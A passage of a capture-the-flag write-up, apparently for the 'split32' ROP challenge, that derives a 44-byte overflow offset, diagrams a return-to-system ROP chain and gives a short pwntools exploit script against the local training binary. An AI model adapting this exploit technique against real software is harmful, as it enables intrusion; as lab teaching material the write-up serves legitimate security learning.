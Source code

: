 We can see that if we increment the `ebp` by 4, it will point to the saved return address.

Therefore the distance between the buffer and the saved return address is `offset+4` which is equal to 44.

### Exploit requirements

We have all the knowledge we need to create an exploit.
	- [x] Number of padding bytes: `44`
	- [x] Address of `/bin/cat flag.txt`: `0x804a030`
	- [x] Address of `call <system@plt>`: `0x0804861a`
 
All that remains is to link these pieces of information to create a ROP chain.

### ROP chain

In this technique, we have to execute our instructions in a carefully chosen sequence:
	1. First we have to replace the `return address` with the address of the `system@plt` call so that it is executed when `pwnme` returns.
	2. Then we have to chain it with the address of the `/bin/cat flag.txt` string so that it can act as the argument of the `system@plt` call.

This is what the ROP chain would look like on the stack.

```
Stack:-
+--------------------------+
|   08    04    86    1a   | <== return address <-- esp
|  ( system@plt )          |
+--------------------------+
|   08    04    a0    30   |
|  ( /bin/cat flag.txt )   |
+--------------------------+

====================================================================================
eip --> pwnme() return
	## This gadget will pop the value pointed to by the esp into eip
====================================================================================

Stack:-
+--------------------------+
|   08    04    a0    30   | <-- esp
|  ( /bin/cat flag.txt )   |
+--------------------------+

====================================================================================
eip --> call <system@plt>
	## This gadget makes a system call based on the argument on the stack
====================================================================================
```

### Exploit

```python title="exploit32.py"
from pwn import *

padding = b"a"*44
bincat_addr = p32(0x804a030)
system_addr = p32(0x0804861a)

payload = padding + system_addr + bincat_addr

p = process('./split32')
p.sendline(payload) 
p.interactive()
```

